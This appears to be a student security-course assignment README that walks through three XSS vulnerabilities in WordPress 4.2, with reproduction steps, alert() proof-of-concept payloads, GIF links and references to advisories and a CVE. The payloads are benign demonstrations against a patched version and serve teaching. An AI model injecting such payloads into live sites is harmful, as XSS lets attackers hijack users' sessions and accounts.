 # CS4984
# CS4984 - Wordpress vs Kali - Week 7 Assignment
Time spent: 10 hours total
README.md

1.	Authenticated Stored Cross-Site Scripting (XSS)
    Summary:
      *	Vulnerability type: XSS
      *	Tested in version: 4.2
      *	Fixed in version: 4.2.3
      
    GIF Walkthrough:
    
    <img src="https://i.imgur.com/DOIp9H9.gif"/>
  Steps to Reproduce: Create a page/post and add: 
  
  ```html
  <a href="[caption code=">]</a><a title=" onmouseover=alert('test') ">link</a>
  ```
  
  to the body. Make sure to be in the text mode and not visual mode for the body section.

  Reference: https://klikki.fi/adv/wordpress3.html 

2.	Authenticated Cross-Site Scripting (XSS)
    Summary:
      *	Vulnerability type: XSS
      *	Tested in version: 4.2
      *	Fixed in version: 4.2.6
      
  GIF Walkthrough: 
  
  <img src="https://i.imgur.com/ZEgrhCE.gif"/>
  
  Steps to Reproduce: Go to a post and make a comment that says: 
  ```html
  http://www.example.com/wp-admin/customize.php?theme=<svg onload=alert(1)>
  ``` 
  Once you post the comment, a pop up that says “Alert(1)” will show up.

  References: 
  https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87 
  https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564 

3.	Pulpload Same Origin Method Execution (SOME)
    Summary: 
      *	Vulnerability type: XSS
      *	Tested in version: 4.2
      *	Fixed in version: 4.2.8
    
      GIF Walkthrough:
      
      <img src="https://i.imgur.com/UB8t0rF.gif"/>
      
      
      Steps to Reproduce: Go to any post and make a comment with the following code: 
      ```html
      <button onclick="fire()">Click</button>
      <script>
      function fire() {
      open('javascript:alert(1)');
      }
      </script>
      ```
      Post the comment and click on the button in the comment. A pop up that says “Alert(1)" will show up.

      References: 
      https://wpvulndb.com/vulnerabilities/8489 
      https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e 
